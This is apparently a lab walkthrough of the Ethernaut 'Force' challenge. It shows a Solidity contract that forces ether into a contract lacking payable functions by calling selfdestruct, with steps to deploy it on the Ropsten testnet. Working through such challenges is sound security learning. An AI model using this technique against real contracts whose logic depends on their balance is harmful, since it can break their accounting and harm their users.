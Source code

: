 force 

// contract has no logic build it; empty contract

// this does NOT mean that contract cannot have a balance > 0!

// though contract is not explicitly payable, contract CAN still receive funds via the recipient of a selfdestruct being called on another function


*contracts attacking contracts*

```javascript
instance // => returns contract address (Ropsten)
await getBalance(instance) // => returns 0 indicating the contract holds no funds at the moment
```

---

to Remix!

---

create new contract! (CAUTION: disposable code ahead..)

```solidity
pragma solidity ^0.4.15;

contract ForceEth {
	// create state variable for readability
	address private forceContract; 

	// constructor
	// insert contract address as constructor argument (returned from calling 'instance' in JS console above)
	function ForceEth(address _addr) public payable {
		forceContract = _addr;
	}

	function kill() public {
		// pass in forceContract state variable as argument for suicide
		selfdestruct(forceContract); // selfdestruct => alias for suicide
	}

	function() payable { }
}
```

- deploy using injectedWeb3 enviro - Ropsten - (passing in some eth amount to value, and address of ethernaut 'Force' contract instance)
- once contract successfully deployed, kill it!

---

back to the console!

---

```javascript
await getBalance(instance) // => returns whatever amount of eth you passed in when deploying the ForceEth contract
```
